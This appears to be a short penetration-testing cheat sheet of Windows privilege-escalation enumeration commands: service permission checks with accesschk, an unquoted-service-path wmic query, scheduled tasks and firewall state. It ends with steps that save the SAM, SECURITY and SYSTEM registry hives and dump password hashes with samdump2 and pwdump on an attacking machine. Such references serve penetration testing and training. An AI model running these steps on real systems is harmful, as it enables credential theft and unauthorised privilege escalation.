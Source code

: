 #### tasklist run by current user
-----
```tasklist -v```


#### accesschk
-----
*https://docs.microsoft.com/en-us/windows/win32/services/localsystem-account?redirectedfrom=MSDN*

```accesschk.exe /accepteula -qwcu "Authenticated Users" *```


#### firewall
-----
```netsh firewall show state```

```netsh firewall show config```


#### privs
-----
```whoami /priv```


#### scheduled tasks
-----
```schtasks /query /fo list /v```


#### file privs
-----
```dir file.txt /s /p```

```icacls "c:\program files\whatever"```


#### wmic
-----
```wmic useraccount get name,sid```

```cmd /c 'wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:windows\" |findstr /i /v """'```


#### SAM dump
-----
*SAM file: C:\Windows\system32\config*

*backup SAM reg key*

```reg save hklm\sam sam.save```

*backup security reg key*

```reg save hklm\security security.save```

*backup system reg key*

```reg save hklm\system system.save```

*On attacking machine:*

```samdump2 system.save sam.save```

```pwdump system.save sam.save```

